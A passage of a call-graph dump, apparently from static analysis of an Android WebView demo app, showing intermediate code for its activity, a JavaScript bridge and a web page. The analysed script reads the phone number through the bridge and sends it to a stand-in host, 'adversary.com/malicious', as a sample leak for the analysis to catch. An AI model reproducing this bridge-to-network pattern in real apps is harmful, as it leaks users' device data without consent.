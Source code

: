 digraph callgraph{
3 [label="Node: synthetic < JavaScriptLoader, LFakeRoot, fakeRootMethod()V > Context: Everywhere
synthetic < JavaScriptLoader, LFakeRoot, fakeRootMethod()V >\lCFG:\lBB0[0..0]\l    -> BB1\l    -> BB6\lBB1[1..1]\l    -> BB2\l    -> BB6\lBB2[2..2]\l    -> BB3\l    -> BB6\lBB3[3..3]\l    -> BB4\l    -> BB6\lBB4[4..4]\l    -> BB5\l    -> BB6\lBB5[5..5]\l    -> BB6\lBB6[-1..-2]\lInstructions:\lBB0\l0   v2 = new <JavaScriptLoader,Lprologue.js>@0\lBB1\l1   v3 = invoke v2@1 exception:v4            \lBB2\l2   v5 = new <JavaScriptLoader,Lpreamble.js>@2\lBB3\l3   v6 = invoke v5@3 exception:v7            \lBB4\l4   v8 = new <JavaScriptLoader,L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js>@4\lBB5\l5   v9 = invoke v8@5 exception:v10           \lBB6\l

<SuccessNodes: 3>\lNode: <Code body of function Lprologue.js> Context: Everywhere\lNode: <Code body of function Lpreamble.js> Context: Everywhere\lNode: <Code body of function L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js> Context: Everywhere" shape=box]
5 [label="Node: < Application, Lkr/ac/kaist/plrg/pldidemo/MainActivity, <init>()V > Context: Everywhere
< Application, Lkr/ac/kaist/plrg/pldidemo/MainActivity, <init>()V >\lCFG:\lBB0[-1..-2]\l    -> BB1\lBB1[0..0]\l    -> BB2\l    -> BB3\lBB2[1..1]\l    -> BB3\lBB3[-1..-2]\lInstructions:\lBB0\lBB1\l0   invokespecial < Application, Landroid/app/Activity, <init>()V > v1 @0 exception:v2(line 0)\lBB2\l1   return                                   (line 1)\lBB3\l

<SuccessNodes: 1>\lNode: < Primordial, Landroid/app/Activity, <init>()V > Context: Everywhere" shape=box]
8 [label="Node: < Application, Lkr/ac/kaist/plrg/pldidemo/MainActivity, onCreate(Landroid/os/Bundle;)V > Context: Everywhere
< Application, Lkr/ac/kaist/plrg/pldidemo/MainActivity, onCreate(Landroid/os/Bundle;)V >\lCFG:\lBB0[-1..-2]\l    -> BB1\lBB1[0..0]\l    -> BB2\l    -> BB18\lBB2[1..2]\l    -> BB3\l    -> BB18\lBB3[3..4]\l    -> BB4\l    -> BB18\lBB4[5..6]\l    -> BB5\l    -> BB18\lBB5[7..7]\l    -> BB6\l    -> BB18\lBB6[8..8]\l    -> BB7\l    -> BB18\lBB7[9..9]\l    -> BB8\l    -> BB18\lBB8[10..12]\l    -> BB9\l    -> BB18\lBB9[13..13]\l    -> BB10\l    -> BB18\lBB10[14..14]\l    -> BB11\l    -> BB18\lBB11[15..15]\l    -> BB12\l    -> BB18\lBB12[16..16]\l    -> BB13\l    -> BB18\lBB13[17..17]\l    -> BB14\l    -> BB18\lBB14[18..18]\l    -> BB15\l    -> BB18\lBB15[19..19]\l    -> BB16\l    -> BB18\lBB16[20..20]\l    -> BB17\l    -> BB18\lBB17[21..21]\l    -> BB18\lBB18[-1..-2]\lInstructions:\lBB0\lBB1\l0   invokespecial < Application, Landroid/app/Activity, onCreate(Landroid/os/Bundle;)V > v1,v2 @0 exception:v3(line 0)\lBB2\l2   invokevirtual < Application, Lkr/ac/kaist/plrg/pldidemo/MainActivity, setContentView(I)V > v1,v4:#2130903040 @5 exception:v5(line 2)\lBB3\l4   v8 = invokevirtual < Application, Lkr/ac/kaist/plrg/pldidemo/MainActivity, findViewById(I)Landroid/view/View; > v1,v6:#2131165184 @10 exception:v7(line 4)\lBB4\l6   v9 = checkcast <Application,Landroid/webkit/WebView>v8(line 6)\lBB5\l7   putfield v1.< Application, Lkr/ac/kaist/plrg/pldidemo/MainActivity, wv, <Application,Landroid/webkit/WebView> > = v9(line 7)\lBB6\l8   v10 = getfield < Application, Lkr/ac/kaist/plrg/pldidemo/MainActivity, wv, <Application,Landroid/webkit/WebView> > v1(line 8)\lBB7\l9   v12 = invokevirtual < Application, Landroid/webkit/WebView, getSettings()Landroid/webkit/WebSettings; > v10 @20 exception:v11(line 9)\lBB8\l12   invokevirtual < Application, Landroid/webkit/WebSettings, setJavaScriptEnabled(Z)V > v12,v13:#1 @25 exception:v14(line 12)\lBB9\l13   v15 = getfield < Application, Lkr/ac/kaist/plrg/pldidemo/MainActivity, wv, <Application,Landroid/webkit/WebView> > v1(line 13)\lBB10\l14   v16 = new <Application,Lkr/ac/kaist/plrg/pldidemo/Bridge>@30(line 14)\lBB11\l15   invokespecial < Application, Lkr/ac/kaist/plrg/pldidemo/Bridge, <init>(Landroid/content/Context;)V > v16,v1 @32 exception:v17(line 15)\lBB12\lBB13\l17   invokevirtual < Application, Landroid/webkit/WebView, addJavascriptInterface(Ljava/lang/Object;Ljava/lang/String;)V > v15,v16,v18:#bridge @37 exception:v19(line 17)\lBB14\l18   v20 = getfield < Application, Lkr/ac/kaist/plrg/pldidemo/MainActivity, wv, <Application,Landroid/webkit/WebView> > v1(line 18)\lBB15\lBB16\l20   invokevirtual < Application, Landroid/webkit/WebView, loadUrl(Ljava/lang/String;)V > v20,v21:#file:///android_asset/index.html @44 exception:v22(line 20)\lBB17\l21   return                                  (line 21)\lBB18\l

<SuccessNodes: 6>\lNode: < Primordial, Landroid/app/Activity, onCreate(Landroid/os/Bundle;)V > Context: Everywhere\lNode: < Primordial, Landroid/app/Activity, setContentView(I)V > Context: Everywhere\lNode: < Primordial, Landroid/webkit/WebView, getSettings()Landroid/webkit/WebSettings; > Context: Everywhere\lNode: < Application, Lkr/ac/kaist/plrg/pldidemo/Bridge, <init>(Landroid/content/Context;)V > Context: Everywhere\lNode: < Primordial, Landroid/webkit/WebView, addJavascriptInterface(Ljava/lang/Object;Ljava/lang/String;)V > Context: Everywhere\lNode: < Primordial, Landroid/webkit/WebView, loadUrl(Ljava/lang/String;)V > Context: Everywhere" shape=box]
11 [label="Node: <Code body of function L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js> Context: Everywhere
<Code body of function L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js>\lCFG:\lBB0[-1..-2]\l    -> BB1\lBB1[0..4]\l    -> BB2\l    -> BB5\lBB2[5..5]\l    -> BB3\l    -> BB5\lBB3[6..9]\l    -> BB4\l    -> BB5\lBB4[10..12]\l    -> BB5\lBB5[-1..-2]\lInstructions:\lBB0\lBB1\l0   v1 = new <JavaScriptLoader,LArray>@0     index.html4658941866824074300.js [0->1198] (line 1) {1=[arguments]}\l1   v5 = global:global Function              index.html4658941866824074300.js [0->1153] (line 1)\l2   v2 = construct v5@2 v4:#L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__ exception:v3index.html4658941866824074300.js [0->1153] (line 1)\l3   v17 = global:global window               index.html4658941866824074300.js [0->6] (line 1)\l4   check v17                                index.html4658941866824074300.js [0->6] (line 1)\lBB2\l5   fieldref v17.v18:#__MAIN__ = v2 = v2     index.html4658941866824074300.js [0->1153] (line 1) {18=[$$destructure$elt13]}\lBB3\l8   v22 = global:global window               index.html4658941866824074300.js [1180->1186] (line 54) {22=[$$destructure$rcvr13]}\l9   check v22                                index.html4658941866824074300.js [1180->1186] (line 54) {22=[$$destructure$rcvr13]}\lBB4\l12   v23 = dispatch v18:#__MAIN__@12 v22 exception:v24index.html4658941866824074300.js [1180->1197] (line 54) {18=[$$destructure$elt13], 22=[$$destructure$rcvr13]}\lBB5\l

<SuccessNodes: 2>\lNode: <ctor for <JavaScriptLoader,LFunction>(L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__)> Context: CallStringContext: [ .var.folders.jw.6d0vfbpn5n15sk0tbvl7x2n80000gn.T.index.html4658941866824074300.js.do()LRoot;@2 ]\lNode: <Code body of function L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__> Context: Everywhere" shape=box]
18 [label="Node: < Application, Lkr/ac/kaist/plrg/pldidemo/Bridge, <init>(Landroid/content/Context;)V > Context: Everywhere
< Application, Lkr/ac/kaist/plrg/pldidemo/Bridge, <init>(Landroid/content/Context;)V >\lCFG:\lBB0[-1..-2]\l    -> BB1\lBB1[0..0]\l    -> BB2\l    -> BB4\lBB2[1..1]\l    -> BB3\l    -> BB4\lBB3[2..2]\l    -> BB4\lBB4[-1..-2]\lInstructions:\lBB0\lBB1\l0   invokespecial < Application, Ljava/lang/Object, <init>()V > v1 @0 exception:v3(line 0)\lBB2\l1   putfield v1.< Application, Lkr/ac/kaist/plrg/pldidemo/Bridge, ctxt, <Application,Landroid/content/Context> > = v2(line 1)\lBB3\l2   return                                   (line 2)\lBB4\l

<SuccessNodes: 1>\lNode: < Primordial, Ljava/lang/Object, <init>()V > Context: Everywhere" shape=box]
19 [label="Node: < Primordial, Landroid/webkit/WebView, addJavascriptInterface(Ljava/lang/Object;Ljava/lang/String;)V > Context: Everywhere
< Primordial, Landroid/webkit/WebView, addJavascriptInterface(Ljava/lang/Object;Ljava/lang/String;)V >\lCFG:\lBB0[-1..-2]\l    -> BB1\lBB1[0..0]\l    -> BB2\l    -> BB4\lBB2[1..3]\l    -> BB3\l    -> BB4\lBB3[4..4]\l    -> BB4\lBB4[-1..-2]\lInstructions:\lBB0\lBB1\l0   v5 = new <Primordial,Ljava/lang/RuntimeException>@0(line 143)\lBB2\l3   invokespecial < Primordial, Ljava/lang/RuntimeException, <init>(Ljava/lang/String;)V > v5,v6:#Stub! @6 exception:v7(line 143)\lBB3\l4   throw v5                                 (line 143)\lBB4\l

<SuccessNodes: 1>\lNode: < Primordial, Ljava/lang/RuntimeException, <init>(Ljava/lang/String;)V > Context: Everywhere" shape=box]
185 [label="Node: <ctor for <JavaScriptLoader,LFunction>(L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__)> Context: CallStringContext: [ .var.folders.jw.6d0vfbpn5n15sk0tbvl7x2n80000gn.T.index.html4658941866824074300.js.do()LRoot;@2 ]
<ctor for <JavaScriptLoader,LFunction>(L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__)>\lCFG:\lBB0[0..0]\l    -> BB1\l    -> BB7\lBB1[1..1]\l    -> BB2\lBB2[2..2]\l    -> BB3\l    -> BB7\lBB3[3..3]\l    -> BB4\l    -> BB7\lBB4[4..5]\l    -> BB5\lBB5[6..6]\l    -> BB6\lBB6[7..7]\l    -> BB7\lBB7[-1..-2]\lInstructions:\lBB0\l0   v2 = new <JavaScriptLoader,LArray>@0     \lBB1\l1   v4 = getfield < JavaScriptLoader, LRoot, prototype, <JavaScriptLoader,LRoot> > v1\lBB2\l2   v5 = new <JavaScriptLoader,L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__>@2\lBB3\l3   v7 = new <JavaScriptLoader,LObject>@3    \lBB4\l4   set_prototype(v5, v4)                    \l5   putfield v5.< JavaScriptLoader, LRoot, prototype, <JavaScriptLoader,LRoot> > = v7\lBB5\l6   putfield v7.< JavaScriptLoader, LRoot, constructor, <JavaScriptLoader,LRoot> > = v5\lBB6\l7   return v5                                \lBB7\l

<SuccessNodes: 0>\l" shape=box]
192 [label="Node: <Code body of function L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__> Context: Everywhere
<Code body of function L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__>\lCFG:\lBB0[-1..-2]\l    -> BB1\lBB1[0..10]\l    -> BB2\l    -> BB17\lBB2[11..13]\l    -> BB3\l    -> BB17\lBB3[14..16]\l    -> BB4\l    -> BB17\lBB4[17..17]\l    -> BB5\l    -> BB17\lBB5[18..23]\l    -> BB6\l    -> BB17\lBB6[24..28]\l    -> BB7\l    -> BB17\lBB7[29..30]\l    -> BB8\l    -> BB17\lBB8[31..31]\l    -> BB9\l    -> BB17\lBB9[32..33]\l    -> BB10\l    -> BB17\lBB10[34..34]\l    -> BB11\l    -> BB17\lBB11[35..36]\l    -> BB12\l    -> BB17\lBB12[37..37]\l    -> BB13\l    -> BB17\lBB13[38..38]\l    -> BB14\l    -> BB17\lBB14[39..42]\l    -> BB15\l    -> BB17\lBB15[43..45]\l    -> BB16\l    -> BB17\lBB16[46..46]\l    -> BB13\lBB17[-1..-2]\lInstructions:\lBB0\lBB1\l0   v3 = new <JavaScriptLoader,LArray>@0     index.html4658941866824074300.js [18->1153] (line 1) {3=[arguments]}\l1   v5 = global:global $$undefined           index.html4658941866824074300.js [51->93] (line 3) {5=[phoneNumber]}\l3   v7 = global:global $$undefined           index.html4658941866824074300.js [98->129] (line 4) {7=[xhr, $$destructure$rcvr3]}\l5   v12 = global:global Function             index.html4658941866824074300.js [18->1153] (line 1)\l6   v9 = construct v12@6 v11:#L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0 exception:v10index.html4658941866824074300.js [18->1153] (line 1) {9=[make_node0]}\l9   v17 = global:global bridge               index.html4658941866824074300.js [69->75] (line 3) {17=[$$destructure$rcvr1]}\l10   check v17                               index.html4658941866824074300.js [69->75] (line 3) {17=[$$destructure$rcvr1]}\lBB2\l13   v19 = dispatch v18:#getPhoneNumber@13 v17 exception:v20index.html4658941866824074300.js [69->92] (line 3) {19=[phoneNumber], 18=[$$destructure$elt1], 17=[$$destructure$rcvr1]}\lBB3\l15   v23 = global:global XMLHttpRequest      index.html4658941866824074300.js [112->126] (line 4)\l16   check v23                               index.html4658941866824074300.js [112->126] (line 4)\lBB4\l17   v21 = construct v23@17 exception:v24    index.html4658941866824074300.js [108->128] (line 4) {21=[xhr, $$destructure$rcvr3]}\lBB5\l23   v28 = dispatch v27:#open@23 v21,v29:#GET,v30:#http://adversary.com/malicious exception:v31index.html4658941866824074300.js [134->183] (line 5) {27=[$$destructure$elt2], 21=[xhr, $$destructure$rcvr3]}\lBB6\l28   v35 = dispatch v34:#send@28 v21,v19 exception:v36index.html4658941866824074300.js [189->210] (line 6) {34=[$$destructure$elt3], 21=[xhr, $$destructure$rcvr3], 19=[phoneNumber]}\lBB7\l29   v39 = global:global document            index.html4658941866824074300.js [979->987] (line 46)\l30   check v39                               index.html4658941866824074300.js [979->987] (line 46)\lBB8\l31   v37 = construct v9@31 v39 exception:v40 index.html4658941866824074300.js [964->988] (line 46) {9=[make_node0]}\lBB9\l32   v43 = global:global String              index.html4658941866824074300.js [1013->1019] (line 49)\l33   check v43                               index.html4658941866824074300.js [1013->1019] (line 49)\lBB10\l34   v41 = construct v43@34 v44:#file:/Users/leesh/Documents/plrg/projects/and_apps/PLDIdemo/assets/index.html exception:v45index.html4658941866824074300.js [1009->1100] (line 49)\lBB11\l35   v46 = global:global document            index.html4658941866824074300.js [994->1002] (line 49)\l36   check v46                               index.html4658941866824074300.js [994->1002] (line 49)\lBB12\l37   fieldref v46.v47:#URL = v41 = v41       index.html4658941866824074300.js [994->1100] (line 49)\lBB13\l38   conditional branch(eq) v49:#true,v50:#0 index.html4658941866824074300.js [1102->1135] (line 50)\lBB14\l41   v54 = global:global window              index.html4658941866824074300.js [1117->1123] (line 51) {54=[$$destructure$rcvr12]}\l42   check v54                               index.html4658941866824074300.js [1117->1123] (line 51) {54=[$$destructure$rcvr12]}\lBB15\l45   v56 = dispatch v55:#onload@45 v54 exception:v57index.html4658941866824074300.js [1117->1132] (line 51) {55=[$$destructure$elt12], 54=[$$destructure$rcvr12]}\lBB16\l46   goto (from iindex= 46 to iindex = 38)   index.html4658941866824074300.js [1102->1135] (line 50)\lBB17\l

<SuccessNodes: 7>\lNode: <ctor for <JavaScriptLoader,LFunction>(L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0)> Context: CallStringContext: [ .var.folders.jw.6d0vfbpn5n15sk0tbvl7x2n80000gn.T.index.html4658941866824074300.js.__WINDOW_MAIN__.do()LRoot;@6 ]\lNode: < Application, Lkr/ac/kaist/plrg/pldidemo/Bridge, getPhoneNumber()Ljava/lang/String; > Context: Everywhere\lNode: <ctor for <JavaScriptLoader,Lpreamble.js/XMLHttpRequest>> Context: CallStringContext: [ .var.folders.jw.6d0vfbpn5n15sk0tbvl7x2n80000gn.T.index.html4658941866824074300.js.__WINDOW_MAIN__.do()LRoot;@17 ]\lNode: <ctor for <JavaScriptLoader,LStringObject>> Context: CallStringContext: [ .var.folders.jw.6d0vfbpn5n15sk0tbvl7x2n80000gn.T.index.html4658941866824074300.js.__WINDOW_MAIN__.do()LRoot;@34 ]\lNode: <ctor for <JavaScriptLoader,L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0>> Context: CallStringContext: [ .var.folders.jw.6d0vfbpn5n15sk0tbvl7x2n80000gn.T.index.html4658941866824074300.js.__WINDOW_MAIN__.do()LRoot;@31 ]\lNode: <Code body of function Lpreamble.js/XMLHttpRequest/xhr_open> Context: Everywhere\lNode: <Code body of function Lpreamble.js/XMLHttpRequest/xhr_send> Context: Everywhere" shape=box]
201 [label="Node: <ctor for <JavaScriptLoader,LFunction>(L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0)> Context: CallStringContext: [ .var.folders.jw.6d0vfbpn5n15sk0tbvl7x2n80000gn.T.index.html4658941866824074300.js.__WINDOW_MAIN__.do()LRoot;@6 ]
<ctor for <JavaScriptLoader,LFunction>(L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0)>\lCFG:\lBB0[0..0]\l    -> BB1\l    -> BB7\lBB1[1..1]\l    -> BB2\lBB2[2..2]\l    -> BB3\l    -> BB7\lBB3[3..3]\l    -> BB4\l    -> BB7\lBB4[4..5]\l    -> BB5\lBB5[6..6]\l    -> BB6\lBB6[7..7]\l    -> BB7\lBB7[-1..-2]\lInstructions:\lBB0\l0   v2 = new <JavaScriptLoader,LArray>@0     \lBB1\l1   v4 = getfield < JavaScriptLoader, LRoot, prototype, <JavaScriptLoader,LRoot> > v1\lBB2\l2   v5 = new <JavaScriptLoader,L/var/folders/jw/6d0vfbpn5n15sk0tbvl7x2n80000gn/T/index.html4658941866824074300.js/__WINDOW_MAIN__/make_node0>@2\lBB3\l3   v7 = new <JavaScriptLoader,LObject>@3    \lBB4\l4   set_prototype(v5, v4)                    \l5   putfield v5.< JavaScriptLoader, LRoot, prototype, <JavaScriptLoader,LRoot> > = v7\lBB5\l6   putfield v7.< JavaScriptLoader, LRoot, constructor, <JavaScriptLoader,LRoot> > = v5\lBB6\l7   return v5                                \lBB7\l

<SuccessNodes: 0>\l" shape=box]
202 [label="Node: < Application, Lkr/ac/kaist/plrg/pldidemo/Bridge, getPhoneNumber()Ljava/lang/String; > Context: Everywhere
< Application, Lkr/ac/kaist/plrg/pldidemo/Bridge, getPhoneNumber()Ljava/lang/String; >\lCFG:\lBB0[-1..-2]\l    -> BB1\lBB1[0..0]\l    -> BB2\l    -> BB7\lBB2[1..1]\l    -> BB3\l    -> BB7\lBB3[2..2]\l    -> BB4\l    -> BB7\lBB4[3..4]\l    -> BB5\l    -> BB7\lBB5[5..5]\l    -> BB6\l    -> BB7\lBB6[6..7]\l    -> BB7\lBB7[-1..-2]\lInstructions:\lBB0\lBB1\l0   v2 = getfield < Application, Lkr/ac/kaist/plrg/pldidemo/Bridge, ctxt, <Application,Landroid/content/Context> > v1(line 0)\lBB2\lBB3\l2   v5 = invokevirtual < Application, Landroid/content/Context, getSystemService(Ljava/lang/String;)Ljava/lang/Object; > v2,v3:#phone @4 exception:v4(line 2)\lBB4\l4   v6 = checkcast <Application,Landroid/telephony/TelephonyManager>v5(line 4)\lBB5\l5   v8 = 